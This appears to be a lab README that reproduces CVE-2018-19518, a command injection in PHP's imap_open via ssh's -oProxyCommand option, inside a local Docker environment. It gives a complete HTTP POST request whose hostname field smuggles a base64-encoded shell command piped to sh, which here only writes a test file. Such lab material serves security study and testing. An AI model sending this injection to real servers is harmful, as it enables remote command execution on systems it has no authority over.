

# PHP IMAP Remote Command Execution (CVE-2018-19518)

[中文版本(Chinese version)](README.zh-cn.md)

The PHP IMAP extension is used for email operations in PHP. Its `imap_open` function calls `rsh` to connect to remote shells. In Debian/Ubuntu systems, `ssh` is used by default instead of `rsh` (meaning when you execute the `rsh` command, it actually executes `ssh`).

Since the `ssh` command allows setting `-oProxyCommand=` to call third-party commands, attackers can inject this parameter to achieve remote command execution.

References:

- <https://bugs.php.net/bug.php?id=77153>
- <https://github.com/Bo0oM/PHP_imap_open_exploit>
- <https://antichat.com/threads/463395/#post-4254681>
- <https://nvd.nist.gov/vuln/detail/CVE-2018-19518>

## Environment Setup

Execute the following command to start a vulnerable PHP server:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080` to access the web page. The web functionality tests whether a mail server can be successfully connected, requiring server address, username, and password.

The source code can be found in [index.php](www/index.php)

## Vulnerability Reproduction

Send the following request to execute the command `echo '1234567890'>/tmp/test0001`:

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

Execute `docker compose exec web bash` to enter the container, and you can see that `/tmp/test0001` has been successfully created:


